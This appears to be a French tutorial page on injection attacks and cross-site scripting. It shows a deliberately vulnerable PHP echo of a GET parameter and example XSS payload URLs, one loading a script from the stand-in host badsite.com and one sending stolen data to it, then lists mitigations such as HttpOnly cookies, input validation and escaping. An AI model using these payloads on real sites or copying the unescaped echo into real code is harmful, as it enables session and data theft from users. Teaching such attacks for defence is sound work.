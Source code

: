 # Cross Site Scripting

L'injection est une attaque consistant à envoyer des données à une application de manière à modifier la signification des commandes qui sont interprétées par le logiciel. Cette attaque profite des nombreux accès possibles.

Cette attaque peut être faite sur :
- SQL,
- LDAP,
- le système d'exploitation,
- XPath,
- XQuery,
- les expressions.

## XSS ("Cross-Site Scripting")

XSS ("Cross-Site Scripting") est une attaque par injection HTML consistant à injecter des scripts milieux dans des sites Web de confiance.

Exemple en PHP :

```
echo "The value you entered is: " . $\_GET['val’];
```

Le format attendu de l'URL est `https://example.com/test.php?val=123`. L'attaque consiste à injecter du code comme `https://example.com/test.php?val=<script>alert(‘Proof this is an XSS’);</script>`.

## XSS réfléchi (reflected XSS)

Une attaque "reflected XSS" consiste à envoyer un lien avec du code injecté à une victime comme ceci : `https://example.com/test.php?val=<script src=”http://badsite.com/badscript.js”></script>`.

Quand la victime clique sur lien, un script d'un site externe est chargé dans la page Web, bénéficiant ainsi d'un accès complet à l'environnement DOM du navigateur. Le script peut alors effectuer une action malicieuse en bénéficiant de l'authentification de l'utilisateur : `http://badsite.com/badPretendImage.jpg?stolendata=secretDataValues`.

## XSS stockée (stored XSS)

Une attaque "stored XSS" consiste à stocker l'injection de code dans une base de données ou un autre espace de stockage. Elle survient alors automatiquement sans aucune action de la victime.

Cette attaque est plus redoutable que "reflected XSS".

## Mitigation des risques d'attaque XSS

Pour mitiger les risques d'attaque XSS, il y a essentiellement deux techniques :
- utiliser le flag `HttpOnly`,
  - Si `HttpOnly` est inclus dans l'en-tête de la réponse HTTP et que le navigateur supporte cette option, le cookie n'est pas accessible par le script côté client.
- valider les données :
  - les entiers ne doivent contenir que des chiffres,
  - les nombres à virgule flottante que des chiffres et le caractère ".",
  - les numéros de carte bancaire que des chiffres et des "-", ...
- utiliser les caractères "escape" et rendre saines les données ("sanitize").
